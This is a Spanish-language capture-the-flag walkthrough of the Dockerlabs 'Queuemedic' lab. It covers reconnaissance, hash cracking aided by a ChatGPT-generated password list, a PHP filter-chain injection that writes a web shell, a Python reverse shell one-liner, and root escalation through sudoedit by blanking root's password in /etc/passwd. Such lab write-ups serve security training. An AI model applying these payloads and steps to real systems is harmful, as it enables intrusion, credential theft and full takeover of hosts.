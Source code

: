 # Docerlabs - Queuemedic - Hard

### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```

![](ANEXOS/Pasted%20image%2020240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925173823.png)

***Al ingresar a la url se carga un formulario de acceso.***

![](ANEXOS/Pasted%20image%2020240925180151.png)

***Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.***

### 3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![](ANEXOS/Pasted%20image%2020240925174021.png)

***Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.***

### 4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![](ANEXOS/Pasted%20image%2020240925174813.png)

***Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.***

### 5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![](ANEXOS/Pasted%20image%2020240925175148.png)

***Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.***

### 6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![](ANEXOS/Pasted%20image%2020240925175503.png)

***Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.***

### 7) Analizamos los archivos descargados:
a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
![](ANEXOS/Pasted%20image%2020240925175854.png)

***Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".***
	
b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.

![](ANEXOS/Pasted%20image%2020240925180826.png)

***Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list***

![](ANEXOS/Pasted%20image%2020240925181901.png)

***Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.***
	
### 8) Ataque de diccionario a los hashes encontrados.
a) ***Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.***
b) ***Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.***
	
![](ANEXOS/Pasted%20image%2020240925183606.png)
![](ANEXOS/Pasted%20image%2020240925183512.png)

***Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".***

### 9) Volviendo la pagina principal en el login http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925184644.png)

***Iniciamos sesión con las credenciales obtenidas.***
![](ANEXOS/Pasted%20image%2020240925184845.png)

***Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.***

### 10) Busueda de Clinic Queuing System (php) en google.
![](ANEXOS/Pasted%20image%2020240925185754.png)
***Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.***

### 11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.

### 12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
![](ANEXOS/Pasted%20image%2020241011082236.png)

### 13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 

### 14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
![](ANEXOS/Pasted%20image%2020241011083138.png)

### 15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.

### 16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
![](ANEXOS/Pasted%20image%2020241011085843.png)

***El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.***
![](ANEXOS/Pasted%20image%2020241011090029.png)

***Ya tengo ejecución de comandos ***

### 17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
![](ANEXOS/Pasted%20image%2020241011090521.png)
	 
### 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
![](ANEXOS/Pasted%20image%2020241011092359.png)

### 19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
![](ANEXOS/Pasted%20image%2020241011092814.png)

### 20) Ahora con `sudo -l` listo los privilegios que tiene el usuario jessica, en este caso tiene los privilegios root para utilizar suodedit en la varpeta /var/www/html/.
![](ANEXOS/Pasted%20image%2020241011102543.png)

### 21) Para elevar privilegios a root primeramente tengo que setear el editor global a nano ya que vim no esta instalado y al editarlo también pongo la opción que se me abra para editar el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103016.png)

### 22) Ahora que ya tengo todo seteado abro el editor en la ubicación que vimos al listar son sudo -l, entonces ejecuto sudoedit /var/www/html/, Se me abrirá automáticamente el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103622.png)

### 23) Ahora que obtuve acceso para editar el archivo /etc/passwd como root lo que queda es eliminar la letra x que esta en el usuario root y esto significa que le quito la contraseña que tenia asignada anteriormente.
![](ANEXOS/Pasted%20image%2020241011103944.png)

### 24) Guardo los cambios y salgo y luego escribo su y presiono enter y ya obtengo acceso a root.
![](ANEXOS/Pasted%20image%2020241011104942.png)
